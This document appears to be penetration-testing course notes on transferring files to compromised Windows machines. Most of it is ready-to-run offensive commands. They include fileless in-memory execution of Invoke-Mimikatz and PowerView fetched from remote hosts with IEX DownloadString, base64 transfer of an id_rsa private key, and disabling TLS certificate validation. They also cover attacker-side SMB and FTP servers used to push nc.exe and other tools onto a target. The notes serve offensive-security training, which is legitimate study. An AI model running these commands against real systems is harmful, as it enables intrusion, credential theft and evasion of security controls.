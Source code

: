 # File Transfer

## Windows File Transfer Methods

<details>

<summary>Windows File Transfer Methods</summary>



## **PowerShell Base64 Encode & Decode**

* use `md5sum filename` to get the md5 hash of file.
* then encode the file using `base64` ; `cat id_rsa |base64 -w 0;echo`
* now copy paste this encoded `base64` data into windows, use powershell to decode this `base64` data .
* then check the `md5` hash of this file to that of 1st step.

## **PowerShell Web Downloads** ⭐

System.Net.WebClient class in powershell can be used to download a file over HTTP, HTTP and FTP.

#### **PowerShell DownloadFile Method**

```powershell
PS C:\\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')PS)
C:\\htb> (New-Object Net.WebClient).DownloadFile('<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\\Users\\Public\\Downloads\\PowerView.ps1>')

PS C:\\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')PS 
C:\\htb> (New-Object Net.WebClient).DownloadFileAsync('<https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>', 'C:\\Users\\Public\\PowerViewAsync.ps1')
```

#### **PowerShell DownloadString - Fileless Method**

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```jsx
PS C:\\htb> IEX (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>')

or

PS C:\\htb> (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>') | IEX

```

#### **PowerShell Invoke-WebRequest**

```jsx
PS C:\\htb> Invoke-WebRequest <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1> -OutFile PowerView.ps1

```

## Common Errors with PowerShell ⭐

*   There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

    This can be bypassed using the parameter `-UseBasicParsing`.

```jsx
PS C:\\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest <https://raw.githubusercontent.com/PowerShellMafia/P> ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

* Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```powershell
PS C:\\htb> IEX(New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1>')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('<https://raw.githubuserc> ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## **SMB Downloads⭐**

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB.

* create smb server `sudo impacket-smbserver share -smb2support /tmp/smbshare`
* `copy \\\\192.168.220.133\\share\\nc.exe` to copy file from pwnbox to Windows

new version of windows block un authenticated guest access, we can fix this by

* create smb server `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test - password test`
* to copy file from pwnbox to Windows `net use n: \\\\192.168.220.133\\share /user:test test`
  * and then `copy n:\\nc.exe`

## FTP Downloads⭐

* configure ftp server in a our attacker machine using python3 `pyftpdlib` module. `sudo python3 -m pyftpdlib --port 21`
* once configured, we can perform file transfer using Powershell Net.WebClient
  * `PS C:\\htb> (New-Object Net.WebClient).DownloadFile('<ftp://192.168.49.128/file.txt>', 'C:\\Users\\Public\\ftp-file.txt')`

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

```jsx
C:\\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\\htb> echo USER anonymous >> ftpcommand.txt
C:\\htb> echo binary >> ftpcommand.txt
C:\\htb> echo GET file.txt >> ftpcommand.txt
C:\\htb> echo bye >> ftpcommand.txt
C:\\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\\htb>more file.txt
This is a test file
```

</details>



